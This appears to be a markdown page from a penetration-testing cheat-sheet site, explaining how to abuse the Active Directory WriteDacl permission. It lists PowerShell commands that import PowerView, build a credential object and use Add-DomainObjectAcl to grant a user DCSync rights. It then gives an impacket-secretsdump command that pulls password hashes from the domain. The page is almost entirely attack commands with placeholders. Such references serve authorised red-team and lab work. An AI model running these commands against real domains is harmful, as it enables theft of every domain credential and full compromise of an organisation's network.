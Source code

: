 ```yaml
---
title: "WriteDacl"
date: 2024-7-12
tags: ["WriteDacl", "active driectory", "ad", "Windows", "dcsync", "secretsdump"]
---
```


### Abuse #1: Add dcsync right to user

{{< tab set1 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Import PowerView.ps1 

<div>

```console
. .\PowerView.ps1
```

</div>

#### 2. Create cred object (runas) \[optional\]

<div>

```console
$username = '<DOMAIN>\<USER>'
```

```console
$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
```

```console
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $password
```

</div>

#### 3. Add dcsync right

<div>

```console
Add-DomainObjectAcl -PrincipalIdentity <USER> -TargetIdentity '<DOMAIN>\<TARGET_GROUP>' -Rights DCSync -Credential $cred
```

</div>

{{< /tabcontent >}}

### 4. Secrets dump

{{< tab set2 tab1 active >}}Linux{{< /tab >}}
{{< tabcontent set2 tab1 >}}

<div>

```console
impacket-secretsdump '<USER>:<PASSWORD>@<TARGET>'
```

</div>

{{< /tabcontent >}}

<br>
